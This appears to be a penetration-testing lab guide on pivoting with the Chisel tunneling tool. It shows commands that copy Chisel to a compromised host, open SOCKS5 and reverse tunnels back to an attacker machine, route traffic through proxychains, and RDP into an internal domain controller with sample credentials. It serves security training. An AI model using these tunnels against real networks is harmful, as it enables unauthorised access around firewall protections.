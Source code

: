 ```yaml
---
description: >-
  a TCP/UDP-based tunneling tool written in Go that uses HTTP to transport data
  that is secured using SSH
---
```


# SOCKS5 Tunneling with Chisel

`Chisel` can create a client-server tunnel connection in a firewall restricted environment.

## Chisel Setup

**Transferring Chisel Binary to Pivot Host**

```shell-session
scp chisel ubuntu@10.129.202.64:~/
```

**Running the Chisel Server on the Pivot Host**

```shell-session
ubuntu@WEB01:~$ ./chisel server -v -p 1234 --socks5
```

* Listen ot incomming connections on port `1234`
* \--socks5 specify to use `SOCKS5`

**Connecting to the Chisel Server**

```shell-session
./chisel client -v 10.129.202.64:1234 socks

2022/05/05 14:21:18 client: Connecting to ws://10.129.202.64:1234
2022/05/05 14:21:18 client: tun: proxy#127.0.0.1:1080=>socks: Listening
2022/05/05 14:21:18 client: tun: Bound proxies
2022/05/05 14:21:19 client: Handshaking...
2022/05/05 14:21:19 client: Sending config
2022/05/05 14:21:19 client: Connected (Latency 120.170822ms)
2022/05/05 14:21:19 client: tun: SSH connected
```

Modify our proxychains.conf file located at `/etc/proxychains.conf` and add `1080` to use proxychains to pivot using the tunnel between port 1080 and SSH tunnel.

**Editing proxychains.conf**

```shell-session
tail -n3 /etc/proxychains.conf

# defaults set to "tor"
# socks4 	127.0.0.1 9050
socks5 127.0.0.1 1080
```

Now we can use service like RDP to connect to the host in the internal network using proxychains through tunnel.

**Pivoting to the DC**

```shell-session
proxychains xfreerdp /v:172.16.5.19 /u:victor /p:pass@123
```

## Chisel Reverse Setup

There might be some scenario where the firewall restricts any inbound connection to the compromised/foothold target. We can use --reverse flag to run the server on the attack host instead and the foothold target runs chisel with R:socks.

**Starting the Chisel Server on our Attack Host**

```shell-session
sudo ./chisel server --reverse -v -p 1234 --socks5
```

**Connecting the Chisel Client to our Attack Host**

```shell-session
./chisel client -v 10.10.14.17:1234 R:socks
```

**Editing & Confirming proxychains.conf**

```shell-session
tail -f /etc/proxychains.conf 

[ProxyList]
# add proxy here ...
# socks4    127.0.0.1 9050
socks5 127.0.0.1 1080 
```

if you get the following error:

```
./chisel: /lib/x86_64-linux-gnu/libc.so.6: version `GLIBC_2.32' not found (required by ./chisel)
./chisel: /lib/x86_64-linux-gnu/libc.so.6: version `GLIBC_2.34' not found (required by ./chisel)
```

Then try to build chisel with static library.

```go
go build --ldflags '-linkmode external -extldflags "-static"'
```

